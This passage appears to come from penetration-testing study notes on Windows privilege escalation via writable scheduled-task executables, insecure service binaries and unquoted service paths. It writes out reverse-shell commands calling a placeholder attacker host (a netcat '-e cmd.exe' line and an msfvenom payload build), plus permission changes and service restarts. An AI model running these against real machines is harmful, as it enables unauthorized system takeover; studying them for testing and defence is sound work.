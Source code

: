 
#### Schedule Tasks

  If a scheduled task is missing a binary or executes a binary that can be modified, we can add custom commands to it.  
  We can list all the tasks and check the permission on their "Task to Run" executable.  
  ```shell
  schtasks /query /fo list /v          # display scheduled tasks info formatted as a list (including Task to Run)
  icacls <EXECUTABLE>                  # display permissions for the executable
                                       # Shows F for full-access and RX fr Read and Execute
  ```
  If our user group has permission to write the executable, we can replace its content with a reverse-shell.  
  Assuming we have the netcat binary available (nc64.exe), we can run : 
  ```shell
  echo "c:\tools\nc64.exe -e cmd.exe <ATTACKER_IP> 4444" > <EXECUTABLE>     # replace the executable by a reverse shell
  # on the attacker machine, we need to start a listener on port 4444
  schtasks /run /tn <TASK_NAME>                                             # run the task if we can (otherwise wait for it to run on schedule)
  ```


#### Insecure permissions on services

  We can see the configuration of a Windows service with `sc.exe qc <SERVICE_NAME>` (or in the registry).  
  This shows the name of the binary used by the service, and the user it runs as.  
  We can check the permissions of the binary with `icacls <BINARY>`.  
  If this shows that we can modify it, then the service is insecure and we can replace its binary by a custom one.  
  We can create a custom payload that opens a reverse shell with MsfVenom : 
  ```shell
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4445 -f exe-service -o revshell.exe
  ```
  The listener on the attacker machine can use either the Metasploit multi-handler or a simple `nc -lvnp 4445` command.  
  Move that payload to the Windows machine (with a Python HTTP server for ex), replace the service file and restart the service : 
  ```shell
  icacls <BINARY> /grant Everyone:F    # grant permission to the service user to execute the binary to start the service
  sc.exe stop <SERVICE_NAME>
  sc.exe start <SERVICE_NAME>
  ```
  

#### Unquoted service paths

  On Windows, services can have spaces in their executable path in the Windows registry.  
  If a service name has spaces and is not quoted, there is a known vulnerability.  
  An attacker can add a script and get it executed instead of the actual service executable.  
  For example if the service executable is `C:\Program Files\MyService\service.exe`, Windows will first look for `C:\Program.exe`.  
  If the attacker creates that file, Windows will execute it with Systems permissions instead of the actual service.  
  All unquoted services containing a space can be listed with a PowerShell script (not 100% accurate but good enough) : 
  ```shell
  Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {
      $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'
  } | select Name,DisplayName,StartMode,PathName
  ```
  A malicious `Program.exe` file can be crafted with MsfVenom (same as above) and sent to the machine.     